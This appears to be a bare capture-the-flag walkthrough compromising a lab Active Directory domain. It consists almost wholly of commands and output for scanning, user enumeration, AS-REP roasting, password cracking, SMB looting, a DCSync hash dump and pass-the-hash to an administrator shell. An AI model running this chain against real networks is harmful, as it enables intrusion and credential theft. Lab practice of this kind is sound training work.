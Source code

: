 
# nmap -sVC 10.10.96.84 -T4

```Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-16 17:47 EET
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.96.84, 16) => Operation not permitted
Offending packet: TCP 10.2.92.176:64370 > 10.10.96.84:53 S ttl=38 id=49382 iplen=44  seq=1945375481 win=1024 <mss 1460>
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.96.84, 16) => Operation not permitted
Offending packet: TCP 10.2.92.176:64371 > 10.10.96.84:53 S ttl=47 id=21233 iplen=44  seq=1945441016 win=1024 <mss 1460>
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.96.84, 16) => Operation not permitted
Offending packet: TCP 10.2.92.176:64372 > 10.10.96.84:53 S ttl=59 id=42740 iplen=44  seq=1945506555 win=1024 <mss 1460>
Nmap scan report for 10.10.96.84
Host is up (0.37s latency).
Not shown: 987 closed ports
PORT     STATE    SERVICE       VERSION
53/tcp   filtered domain
80/tcp   open     http          Microsoft IIS httpd 10.0
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2022-02-16 15:48:19Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open     tcpwrapped
3389/tcp open     ms-wbt-server Microsoft Terminal Services
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.30 seconds
```

# AD Users Enumeration 
  ./kerbrute userenum -d spookysec.local --dc 10.10.246.162 userlist.txt 
  
james@spookysec.local
svc-admin@spookysec.local
robin@spookysec.local
darkstar@spookysec.local
administrator@spookysec.local
backup@spookysec.local
paradox@spookysec.local 


# AS-REP ROASTING 
   python3 GetNPUsers.py spookysec.local/ -userfile users.txt -no-pass -dc-ip 10.10.246.162
   
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set  
[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:9e9d37205ca2b017be8b60ae4decc7d8$4d81d588e53cd91588752a3d06537c32d95b9e71c8ad9000bfb2442ae8fdd36a7448fca372decebd0d6ef2a0020b5eea2d690503018447cbd9422ff59fe0aa62777c8840112179b56a1971f083ca17ef83a29d4815f86c3c5836420de128f7c9d6975bd367c02b2f22ce506b61ce0ebaa2a664b59fa40a7fa1d04db8654d62c3f09c803025e270ef112a2f833b4e2d8bc1fe756d58fa734277b25b77e521e57a7a77dc19d517a692704f5c68a5593f552bacc82202f44fecf34ddf36f97ed54d65432eef3739fad5b9ce14fbf81b306503b0191dd3eda6ed3e7ade34bb37cc1b3ee16b240369df8fb7cb79d367bee2c66b2c
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set  

# John Hash.txt
  svc-admin:management2005

# smbclient -L //10.10.83.246 -U 'svc-admin' 
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 

# smbclient //10.10.83.246/backup -U 'svc-admin'

# smb: \> get backup_credentials.txt
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
backup@spookysec.local:backup2517860

#  DCSync
 python3 secretsdump.py -dc-ip 10.10.83.246 spookysec.local/backup:backup2517860@10.10.83.246 -use-vss

Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::


#  Pass The Hash
    evil-winrm -i 10.10.83.246 -u administrator -H 0e0363213e37b94221497260b0bcb4fc

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
thm-ad\administrator


